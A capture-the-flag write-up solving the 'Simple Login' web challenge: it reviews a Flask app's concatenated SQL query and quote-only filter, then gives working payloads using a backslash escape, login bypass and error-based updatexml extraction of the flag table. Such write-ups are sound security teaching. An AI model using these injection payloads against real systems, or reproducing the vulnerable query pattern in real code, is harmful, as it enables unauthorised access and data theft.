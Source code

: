 # Simple Login

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

## Overview

- 84 solves / 108 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

A simple login service :)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170143.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165716.png)

When we go to `/`, it redirected us to `/login`, which means we'll need to login first.

Let's try some random credentials, such as `admin:admin`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165752.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165800.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165842.png)

When we clicked the "Login" button, it'll send a POST request to `/login` with parameter `username` and `password`.

As expected, since the random credential that we just submitted is incorrect, it responded to us with "No user".

Hmm... Because this kind of request usually done with a database. Let's try some **SQL injection** payloads, like `' OR 1=1-- -`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170259.png)

This time it responded with "Do not try SQL injection". Looks like the web application is filtering out SQL injection payload! To figure what does the filter do, we can view this web application's source code.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/Simple-Login/simple-login.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:36(HKT)]
└> file simple-login.tar.gz 
simple-login.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:38(HKT)]
└> tar xvzf simple-login.tar.gz 
simple-login/
simple-login/db/
simple-login/db/init.sql
simple-login/compose.yaml
simple-login/web/
simple-login/web/app.py
simple-login/web/templates/
simple-login/web/templates/index.html
simple-login/web/templates/login.html
simple-login/web/Dockerfile
simple-login/web/requirements.txt
```

After reading the source code a little, we can have the following findings:
1. This web application is written in Python with [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application framework
2. This web application uses a DBMS (Database Management System) called [MySQL](https://www.mysql.com/), and it uses [PyMySQL](https://github.com/PyMySQL/PyMySQL) for the client connection

Let's deep dive into those logics!

First off, what's our objective? Where's the flag?

In `simple-login/db/init.sql`, we can see that the flag is inserted into table `flag`:

```sql
USE chall;

DROP TABLE IF EXISTS flag;
CREATE TABLE IF NOT EXISTS flag (
    value VARCHAR(128) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

-- On the remote server, a real flag is inserted.
INSERT INTO flag (value) VALUES ('Alpaca{REDACTED}');
[...]
```

So, our goal is this challenge is to somehow **exfiltrate table `flag`'s record**.

Now let's go to `simple-login/web/app.py`. In there, it has 2 routes. However, only 1 of them are really interesting to us, which is POST route `/login`:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username is None or password is None:
            return "Missing required parameters", 400
        if len(username) > 64 or len(password) > 64:
            return "Too long parameters", 400
        if "'" in username or "'" in password:
            return "Do not try SQL injection 🤗", 400

        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
                )
                user = cursor.fetchone()
        [...]
    else:
        [...]
```

Right off the bat, we can see there's a SQL injection vulnerability, as this route **directly concatenates our POST parameter `username` and `password` value into the raw SQL query**.

However, this SQL injection vulnerability is not that straight forward to be exploited, as it has this filter:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    [...]
    if "'" in username or "'" in password:
        return "Do not try SQL injection 🤗", 400
```

As you can see, if our parameter's value **contains** single quote (`'`) character, it'll not execute the raw SQL query.

## Exploitation

Can we bypass this filter? Well, yes!

To do so, we can **use a backslash character (`\`) in the `username` parameter** to **escape the string**, and then we can inject our SQL injection payload into the `password` parameter!

**Original SQL query:**
```sql
SELECT * FROM users WHERE username = '{username}' AND password = '{password}'
```

**Our payload:**
```sql
SELECT * FROM users WHERE username = '\' AND password = ' OR 1=1-- -'
```

Nice! Let's test this!

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=\&password=+OR+1%3d1--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172030.png)

We now successfully bypassed the authenticated via SQL injection!

But wait, the flag is in the table `flag`...

To exfiltrate the flag record, we can use an error-based SQL injection payload, such as the following:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

username=\&password=+and+updatexml(null,concat(0x0a,version()),null)-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function).

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172352.png)

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

username=\&password=+and+updatexml(null,concat(0x0a,(select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172556.png)

Although the output is truncated, we can try to remove the new line character (`0x0a`) in the `concat` function:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

username=\&password=+and+updatexml(null,concat((select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172708.png)

- **Flag: `Alpaca{SQLi_with0ut_5ingle_quot3s!}`**

## Conclusion

What we've learned:

1. SQL injection without single quotes